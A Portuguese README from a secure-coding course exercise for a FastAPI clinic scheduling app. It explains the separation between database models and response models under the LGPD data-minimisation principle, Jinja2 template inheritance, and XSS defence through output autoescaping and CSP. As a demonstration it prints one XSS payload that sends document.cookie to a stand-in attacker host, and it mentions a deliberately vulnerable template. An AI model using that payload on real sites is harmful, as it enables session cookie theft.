


# Exercício 2 - Controle de exposição de dados e templates seguros

## Separação entre tabela e contrato

O que o banco guarda e o que a API devolve são classes diferentes:

| Camada | Classe | Campos |
|---|---|---|
| Tabela | `Consulta` (`app/db_models.py`) | todos, inclusive `token_auditoria`, `criado_por_id`, `criado_em`, `atualizado_em`, `ip_origem` |
| Resposta ao profissional e ao paciente | `ConsultaPublic` (`app/models.py`) | id, paciente, profissional, início, duração, status, motivo, observações |
| Resposta à recepção | `ConsultaAgenda` | horário, paciente, profissional, especialidade, status, observações (sem `motivo`) |
| Resposta ao laboratório | `HorarioDisponivel` | profissional, especialidade, início, fim (nenhum dado de paciente) |
| Cadastro de paciente | `PacientePublic` | CPF substituído por `cpf_mascarado` (`***.018.159-**`) |

Toda rota declara `response_model`. O repositório devolve o registro inteiro de propósito (`database._montar` faz `consulta.model_dump()`), e é o `response_model` que corta: um campo novo adicionado à tabela não vaza, porque não está no contrato. Isso é allowlist de saída, o oposto de lembrar de remover campo por campo.

A escolha de recortes diferentes por consumidor aplica o princípio da necessidade da LGPD (art. 6º, III): a recepção precisa saber quem chega e a que horas, não por que a pessoa vai ao cardiologista.

O teste `test_resposta_json_nao_expoe_campos_internos` confere a resposta real, e `test_contrato_openapi_nao_declara_campos_internos` confere o contrato publicado no OpenAPI, que é o que o frontend vai gerar como tipo.

## Página HTML com herança de templates

- `templates/base.html`: estrutura comum (cabeçalho, rodapé com aviso de LGPD, folha de estilo em `/static/agenda.css`).
- `templates/login.html` e `templates/agenda.html`: `` e preenchem os blocos `titulo`, `acoes` e `conteudo`.

`/web/agenda` (`app/routes/web.py`) converte cada linha em `ConsultaAgenda` antes de entregar ao template. O template não recebe o motivo clínico, então nem um erro de template conseguiria exibi-lo.

## Proteção contra XSS

O `Jinja2Templates` do FastAPI cria o ambiente com autoescape para arquivos `.html`. Todo `{{ c.observacoes }}` é convertido em entidades antes de entrar na página:

```
gravado:   <script>fetch('https://atacante.exemplo/?c='+document.cookie)</script>
na página: <td>&lt;script&gt;fetch(&#39;https://atacante.exemplo/?c=&#39;+document.cookie)&lt;/script&gt;</td>
```

Decisões:

- O texto é armazenado como digitado. Filtrar `<` na entrada quebraria observação legítima e não pegaria vetores de outro contexto (atributo, URL, JSON). A defesa é o encoding na saída, no contexto certo.
- Nenhum template usa `|safe` ou `Markup` com dado de usuário. A única ocorrência de `|safe` do projeto está em `templates/agenda_inseguro.html`, a versão vulnerável preservada para o Exercício 8.
- A CSS foi movida para arquivo estático para que a CSP das páginas da recepção (Exercício 10) não precise de `'unsafe-inline'` nem em `style-src`. A CSP é a segunda barreira: mesmo que um script fosse injetado, `script-src 'self'` impede a execução.





Evidências: `evidencias/ex02-response-model-e-template.txt`, telas 04 e 05.
